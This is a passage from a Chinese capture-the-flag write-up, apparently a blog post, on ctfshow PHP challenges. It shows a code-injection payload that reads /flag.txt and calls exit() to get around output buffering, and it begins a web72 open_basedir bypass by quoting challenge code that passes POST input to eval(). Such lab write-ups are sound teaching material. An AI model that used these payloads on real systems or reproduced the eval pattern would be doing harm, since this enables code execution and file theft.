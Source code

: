 而是输出了第二次的

那我们思考 我们能不能直接输入一个exit() 退出指令

让程序执行完我们的命令后直接退出

```php
c=include('/flag.txt');exit();
```

首先我们看看没有exit函数的情况



<img src="https://i-blog.csdnimg.cn/blog_migrate/f8dd0aae5da3a9fb59c45a83462d37ee.png" alt="" style="max-height:235px; box-sizing:content-box;" />






访问两个flag



<img src="https://i-blog.csdnimg.cn/blog_migrate/d2e7c8384aa3e6d476e7d0f537deaaec.png" alt="" style="max-height:69px; box-sizing:content-box;" />


发现会先读取 然后就进行缓冲区的删除 因为我没有送入缓冲区 所以没有显示



<img src="https://i-blog.csdnimg.cn/blog_migrate/4d2f7be2a0b72e2f1a6d5b07cc2a453c.png" alt="" style="max-height:124px; box-sizing:content-box;" />


发现 我们只要加了函数后 程序就退出了

所以执行完include后 执行exit 这样就退出了 就不会执行下面的函数了

这样我们这道题也做完了

```php
c=include('/flag.txt');exit();
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e3964769aab9d2e2c10d1abcc56ca4a6.png" alt="" style="max-height:175px; box-sizing:content-box;" />


## web72  bypass open_basedir

```cobol
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
```